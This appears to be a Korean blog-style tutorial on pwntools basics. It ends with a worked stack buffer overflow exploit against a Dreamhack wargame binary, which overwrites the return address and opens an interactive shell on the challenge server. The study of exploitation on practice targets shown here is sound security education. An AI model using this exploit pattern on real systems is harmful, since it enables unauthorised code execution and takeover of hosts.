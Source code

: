 ```yaml
---
title: "System Hacking - pwntools basic"
categories: [Security, SystemHacking]
tags: [pwntools] # TAG names should always be lowercase
---
```


> pwntools 기본 함수들의 용도에 대한 매우 기본적인 내용 정리

필요하다면, docs 원문을 참조하자. [pwntools api docs](https://docs.pwntools.com/en/latest/)

# pwntools functions

## process & remote

`process`함수는 로컬 바이너리를 대상으로, `remote`는 원격 서버를 대상으로한다.
```python
from pwn import *
p = process('./main')
p = remote('example.com', port) 
```

## send
데이터를 프로세스에 전송하는 함수다.
```python
from pwn import *
p = process('./poc')
p.send(b'A')  # ./poc에 b'A'를 입력
p.sendline(b'A') # ./poc에 b'A' + b'\n'을 입력
p.sendafter(b'output', b'A')  # ./poc가 b'output'을 출력하면, b'A'를 입력
p.sendlineafter(b'output', b'A')  # ./poc가 b'output'을 출력하면, b'A' + b'\n'을 입력
```

## recv
프로세스에서 데이터를 받는 함수. `recv()`, `recvn()`의 차이점을 유의하자. `recvn(n)`은 n바이트를 정확히 받는 반면, `recv(n)`은 __최대__ n바이트 만큼의 데이터를 받는다.

```python
from pwn import *
p = process('./poc')
data = p.recv(1024)  # p가 출력하는 데이터를 최대 1024바이트까지 받아서 data에 저장
data = p.recvline()  # p가 출력하는 데이터를 개행문자를 만날 때까지 받아서 data에 저장
data = p.recvn(8)  # p가 출력하는 데이터를 8바이트만 받아서 data에 저장
data = p.recvuntil(b'hello')  # p가 b'hello'를 출력할 때까지 데이터를 수신하여 data에 저장
data = p.recvall()  # p가 출력하는 데이터를 프로세스가 종료될 때까지 받아서 data에 저장
```

## packing & unpacking
값을 리틀 엔디언 바이트 배열로 변경하거나, 그의 역과정을 수행하는 함수들이 있다. `p32`,`p64`,`u32`,`u64` 함수의 예시만 사용해보자. 함수의 이름처럼 매우 직관적인 기능을 수행한다.

```python
from pwn import *
s32 = 0x41424344
s64 = 0x4142434445464748
print(p32(s32))
print(p64(s64))
s32 = b"ABCD"
s64 = b"ABCDEFGH"
print(hex(u32(s32)))
print(hex(u64(s64)))
```
```shell
# output
b'DCBA'
b'HGFEDCBA'
0x44434241
0x4847464544434241
```

## interactive
입출력을 직접 수행할 수 있게 해준다. shell을 획득했거나 특정 상황에서 직접 입력과 그에 따른 출력을 확인해야 할때 사용하는 함수다.

```python
from pwn import *
p = process('./poc')
p.interactive()
```

## ELF
ELF 헤더의 정보를 확인할수 있게 해주는 함수
```python
from pwn import *
e = ELF('./poc')
puts_plt = e.plt['puts'] # puts()의 PLT주소를 찾아서 puts_plt에 저장
read_got = e.got['read'] # read()의 GOT주소를 찾아서 read_got에 저장
```

## context.log
익스플로잇 로깅. `context.log_level`변수로 로그 레벨을 조절 할 수 있다.

```python
from pwn import *
context.log_level = 'error' # 에러만 출력
context.log_level = 'debug' # 대상 프로세스와 익스플로잇간에 오가는 모든 데이터를 화면에 출력
context.log_level = 'info'  # 중요한 정보들만 출력
```

## context.arch
아키텍처 정보를 지정할 수 있다. 이 값에 따라 몇몇 함수들의 동작이 달라진다.

```python
from pwn import *
context.arch = "amd64" # x86-64 아키텍처
context.arch = "i386"  # x86 아키텍처
context.arch = "arm"   # arm 아키텍처
```

## shellcraft
자주 사용되는 여러 셸 코드들을 제공한다. 그러나 정적으로 생성되는 코드이므로, 제약이 있는 상황에서는 직접 그에 따라 셸코드를 작성하자.

```python
from pwn import *
context.arch = 'amd64' # 대상 아키텍처 x86-64
code = shellcraft.sh() # 셸을 실행하는 셸 코드 
```

## asm
어셈블 기능을 수행한다. 사전에 `context.arch`가 정의되어야한다.
```python
from pwn import *
context.arch = 'amd64' # 익스플로잇 대상 아키텍처 'x86-64'
code = shellcraft.sh() # 셸을 실행하는 셸 코드
code = asm(code)       # 셸 코드를 기계어로 어셈블
```

# pwntools example

[Dreamhack Prob](https://dreamhack.io/wargame/challenges/351/)

취약한 C 코드가 아래와 같이 주어진다.
```c
// Name: rao.c
// Compile: gcc -o rao rao.c -fno-stack-protector -no-pie

#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

void get_shell() {
  char *cmd = "/bin/sh";
  char *args[] = {cmd, NULL};

  execve(cmd, args, NULL);
}

int main() {
  char buf[0x28];

  init();

  printf("Input: ");
  scanf("%s", buf);

  return 0;
}
```

```python
#!/usr/bin/python3

from pwn import *

#p = process('./rao')
p = remote("host3.dreamhack.games", 14044)

elf = ELF('./rao')
get_shell = elf.symbols['get_shell']       # The address of get_shell()

payload = b'A'*0x30        #|       buf      |  <= 'A'*0x30
payload += b'B'*0x8        #|       SFP      |  <= 'B'*0x8
payload += p64(get_shell)  #| Return address |  <= '\xaa\x06\x40\x00\x00\x00\x00\x00'

p.sendline(payload)        # Send payload to './rao'

p.interactive()            # Communicate with shell
```